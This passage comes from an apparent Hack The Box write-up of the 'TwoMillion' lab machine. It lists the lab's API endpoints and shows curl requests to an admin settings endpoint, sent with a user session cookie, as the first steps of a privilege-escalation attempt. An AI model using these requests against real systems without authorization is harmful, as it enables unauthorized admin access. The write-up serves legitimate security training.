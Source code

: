 ```
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```

Let's try to update our user as admin using the `/api/v1/admin/settings/update` endpoint.

```
┌──(kali㉿kali)-[~/Desktop/htb/twomillion]
└─$ curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=cc3n1i5cmnodhcva9ugr2saprf" | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    53    0    53    0     0     50      0 --:--:--  0:00:01 --:--:--    50
{
  "status": "danger",
  "message": "Invalid content type."
}
```

Let's change the content type to `application/json`.

```
┌──(kali㉿kali)-[~/Desktop/htb/twomillion]
└─$ curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=cc3n1i5cmnodhcva9ugr2saprf" --header "Content-Type: application/json" | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    56    0    56    0     0      1      0 --:--:--  0:00:45 --:--:--    15
{
  "status": "danger",
  "message": "Missing parameter: email"
}
```

Let's add the `email` in `data`.
